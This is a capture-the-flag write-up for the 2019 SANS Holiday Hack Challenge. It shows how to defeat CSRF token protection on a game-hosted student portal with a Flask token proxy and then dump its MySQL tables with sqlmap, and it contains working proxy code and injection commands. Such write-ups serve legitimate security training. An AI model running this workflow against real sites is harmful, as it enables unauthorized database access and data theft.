










# Retrieve Scraps of Paper from Server
**Terminal Hint**: [Pepper Minstix - Graylog](../hints/h9.md)

## Request
> Gain access to the data on the [Student Portal](https://studentportal.elfu.org/) server and retrieve the paper scraps hosted there.  
> What is the name of Santa's cutting-edge sleigh guidance system?  
> For hints on achieving this objective, please visit the dorm and talk with Pepper Minstix.  
>  
> Krampus:  
> Unfortunately, I managed to lock out my account on the server.  
> Hey! You’ve got some great skills. Would you please hack into my system and retrieve the scans?  
> I give you permission to hack into it, solving Objective 9 in your badge.  
> And, as long as you're traveling around, be sure to solve any other challenges you happen across.

## Video
<div class="video-wrapper">
<iframe width="560" height="315" src="https://www.youtube.com/embed/Vg9V4NhKbao?start=900" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
</div>

## Resources
- [Student Portal](https://studentportal.elfu.org/)
- [OWASP SQL Injection](https://www.owasp.org/index.php/SQL_injection)
- [SQLMAP Tamper Scripts for The Win](https://pen-testing.sans.org/blog/2017/10/13/sqlmap-tamper-scripts-for-the-win)

## Solution
Pepper hints at using blind SQLi to retrieve the scraps from the server but whipping out [sqlmap](http://sqlmap.org) won't do us much good at this point. Both the `apply.php` and `check.php` pages contain a set of custom JavaScript functions that first retrieve a token value from `validator.php`. This value is then added to the form data and submitted to the server as a way to prevent [Cross-site request forgery (CSRF)](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)). For each request the server will first check the token and only accept the request if the token is valid.



In other words, unless we tell sqlmap to submit a valid token with each of its requests, chances are the SQLi attempts won't even hit the backend database. Fortunately for us sqlmap has a `--csrf-url` option which allows you to specify a URL from where to retrieve tokens. Unfortunately for us, sqlmap also requires specifying the token field name via the `--csrf-token` option and `validator.php` doesn't set any token field names. It just returns the token value as-is.

```shell
sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=McElfin%40example.com&token=y" \
--csrf-url https://studentportal.elfu.org/validator.php --csrf-token=
```




The problem can be solved by translating the `validator.php` response data to a format that sqlmap accepts (i.e. contains a token field name in the header or response body). When the below [`token_proxy.py`](../scripts.md#token_proxypy) Python script receives a GET request it grabs a token value from `validator.php` and adds it as the value to a `token` field in both the header and body of its own HTTP response. 

```python
#!/usr/bin/env python3
"""2019 SANS Holiday Hack Challenge - Retrieve Scraps of Paper from Server."""
import requests
from flask import Flask, Response
app = Flask(__name__)


@app.route("/")
def token():
    """Return a token."""
    url = 'https://studentportal.elfu.org/validator.php'
    token = requests.Session().get(url).text
    # Put the token in the body, input tag, and header.
    resp = Response(
        f'Token:{token}\n'
        '<form>\n'
        f'  <input type="hidden" id="token" name="token" value="{token}"/>\n'
        '</form>\n'
    )
    resp.headers['token'] = token
    return resp


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

Start the Flask proxy app so it's ready to respond to incoming token requests.

```shell
python3 token_proxy.py
```




Now run the earlier sqlmap command again but with the `--csrf-url` parameter set to our proxy listening on 127.0.0.1:5000 and `--csrf-token` set to 'token'. This will allow sqlmap to send valid HTTP requests to the server and execute its SQLi attacks.

```shell
sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=McElfin%40example.com&token=y" \
--csrf-url http://127.0.0.1:5000/ --csrf-token=token
```




We now know the database type (i.e. MySQL) and that the setup is vulnerable to at least three types of SQL Injection attacks via the `elfmail` GET parameter: boolean-based blind, error-based, and time-based blind. Grab an overview of the available databases.

```shell
sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=McElfin%40example.com&token=y" \
--csrf-url http://127.0.0.1:5000/ --csrf-token=token --dbms=mysql --dbs
```



`information_schema` is a default MySQL database so request the tables for `elfu`.

```shell
sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=McElfin%40example.com&token=y" \
--csrf-url http://127.0.0.1:5000/ --csrf-token=token --dbms=mysql --tables -D elfu
```



Out of the three tables in the `elfu` database `krampus` looks like a good candidate so let's dump that.

```shell
sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=McElfin%40example.com&token=y" \
--csrf-url http://127.0.0.1:5000/ --csrf-token=token --dbms=mysql -D elfu -T krampus --dump
```



Well that looks pretty promising. Download the PNG files from the Student Portal and reassemble them using an image editor.



## Answer
Sleigh guidance system name: `Super Sled-o-matic`

## Response
> Wow! We’ve uncovered quite a nasty plot to destroy the holiday season.  
> We’ve gotta stop whomever is behind it!  
> I managed to find this protected document on one of the compromised machines in our environment.  
> I think our attacker was in the process of exfiltrating it.  
> I’m convinced that it is somehow associated with the plan to destroy the holidays. Can you decrypt it?  
> There are some smart people in the NetWars challenge room who may be able to help us.
